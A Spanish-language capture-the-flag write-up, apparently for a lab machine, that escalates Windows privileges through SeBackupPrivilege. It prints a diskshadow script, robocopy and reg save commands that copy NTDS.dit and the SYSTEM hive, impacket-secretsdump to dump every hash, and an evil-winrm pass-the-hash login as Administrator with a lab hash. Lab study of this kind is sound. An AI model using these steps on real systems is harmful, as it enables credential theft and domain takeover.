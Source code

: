 Ahora nos encontramos que tenemos los permisos de `SeBackupPrivilage` en la cual tenemos el siguiente articulo que explica bien como explotarla
```
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
```
![[Pasted image 20240731121802.png]]
- `SeBackupPrivilege`:  Proporciona a los usuarios permisos de lectura completos y la capacidad de crear copias de seguridad del sistema. El acceso de lectura completo permite leer cualquier archivo del objetivo, incluidos los archivos sensibles del sistema como _SAM_, _SYSTEM_ o _NTDS.dit_. Un potencial atacante puede aprovechar este privilegio para extraer los _hashes_ de estos archivos sensibles, descifrarlos o pasarlos (PTH) para elevar su shell.

Para empezar la escalada de privilegios comenzaremos creando el siguiente script
```Powershell
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
![[Pasted image 20240731125129.png]]

Ahora enviamos el script a la maquina victima
![[Pasted image 20240731125356.png]]

Ahora lo ejecutamos con la utilidad `diskshadows`
```
diskshadow /s script.txt
```
![[Pasted image 20240731125643.png]]
![[Pasted image 20240731125659.png]]

Al finalizar se nos creara una unidad adicional
![[Pasted image 20240731125738.png]]

Ahora con la utilidad `robocopy` realizaremos una copia del fichero `NTDS.dit`
```
robocopy /b E:\Windows\ntds . ntds.dit
```
![[Pasted image 20240731130026.png]]
![[Pasted image 20240731130039.png]]

Una vez finalice seguiremos generando un respaldo del registro `SYSTEM`, nos valdra para conseguir descifrar el fichero `NTDS.dit`
```
reg save hklm\system .\system.copy
```
![[Pasted image 20240731130227.png]]

Ahora traemos estos dos ficheros a nuestro equipo para extraer los hashes de todos los usuarios
![[Pasted image 20240731130340.png]]
![[Pasted image 20240731131837.png]]

Ejecutamos `secretsdump` y obtendremos todos los hashes del sistema
```
impacket-secretsdump -system system.copy -ntds ntds.dit local
```
![[Pasted image 20240731133716.png]]

Ahora si probamos ha acceder con el usuario Administrator ya habremos escalado los privilegios
```
evil-winrm -i 10.10.56.42 -u Administrator -H 9689931bed40ca5a2ce1218210177f0c
```
![[Pasted image 20240731133846.png]]

[[MAQUINA RAZORBLACK (Explotación servicio kerberos, montura de sistema de archivos,  acceso por pass-the-hash y escalada de privilegios explotando permiso SeBackupPrivilage)]]

